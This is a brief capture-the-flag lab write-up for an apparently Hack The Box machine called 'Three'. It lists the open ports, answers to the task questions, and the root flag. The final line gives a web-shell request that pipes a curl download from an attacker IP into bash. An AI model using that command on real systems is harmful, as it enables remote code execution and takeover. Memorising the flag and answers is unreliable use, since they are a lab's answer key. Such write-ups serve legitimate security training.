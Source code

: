 # Starting point

## Three

> Yazeed Ahmed | 18 November 2022

```````````````````````
ip =  10.129.18.141

```````````````````````

## ATTACK Vector

open ports

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


####  TASKS

1. How many TCP ports are open? | 2 

2. What is the domain of the email address provided in the "Contact" section of the website?  | thetoppers.htb

3. In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? |   /etc/hosts 

4. Which sub-domain is discovered during further enumeration?  | s3.thetoppers.htb

5. Which service is running on the discovered sub-domain? | amazon s3

6. Which command line utility can be used to interact with the service running on the discovered sub-domain?  | awscli

7. Which command is used to set up the AWS CLI installation? | aws configure

8. What is the command used by the above utility to list all of the S3 buckets?  | aws s3 ls 

9. This server is configured to run files written in what web scripting language? | php


### FLAG 

root flag:  a980d99281a28d638ac68b9bf9453c2b


NB: http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.142:8000/shell.sh|bash